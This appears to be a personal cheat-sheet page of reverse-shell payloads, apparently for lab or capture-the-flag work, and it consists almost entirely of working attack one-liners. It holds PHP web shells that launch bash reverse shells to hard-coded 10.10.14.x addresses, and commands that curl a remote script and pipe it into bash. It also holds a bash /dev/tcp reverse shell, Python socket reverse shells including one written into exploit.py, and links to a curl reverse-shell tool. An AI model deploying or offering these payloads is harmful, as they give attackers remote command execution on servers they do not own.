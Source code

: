 ```yaml
---
description: On COnstruction
---
```


# 🐚 Reverse Shells

PHP

```bash
#For index.php files
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");
?>
#To copy inside a file
echo '<?php system("curl <http://10.10.14.16:443/rev.sh> | bash"); ?>' > hola.php

```

BASH TO PHP

```bash
#Create the rev shell first
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.16/443 0>&1
#Copy it in to file with at http server
echo '<?php system("curl <http://10.10.14.16:80/hey> | bash"); ?>'
```

Standard [shell.sh](http://shell.sh)

```c
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

**Python:**

```bash
#pty Module
python -c 'import pty; pty.spawn("/bin/bash")'
#IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#Inside a file
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"10.10.14.18\\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);" > exploit.py
```

**Full Interactive TTYs:**



{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" %}

<mark style="color:purple;">**Curl Reverse shell:**</mark>

{% embed url="https://github.com/SkyperTHC/curlshell" %}
